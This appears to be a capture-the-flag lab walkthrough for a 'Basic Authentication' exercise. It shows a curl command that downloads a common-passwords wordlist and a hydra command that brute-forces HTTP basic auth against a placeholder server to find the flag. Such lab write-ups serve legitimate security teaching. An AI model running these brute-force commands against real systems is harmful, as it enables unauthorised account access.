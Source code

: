 # Basic Authentication

After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Getting the flag:

**Step 1** - Download a password wordlist:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Execute the command:

* {% code overflow="wrap" %}
  ```bash
  hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt SERVER_IP http-get / -s SERVER_PORT 
  ```
  {% endcode %}

**Step 3** - Login into the application:

*   Login with the founded credentials.

    <figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

    <figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

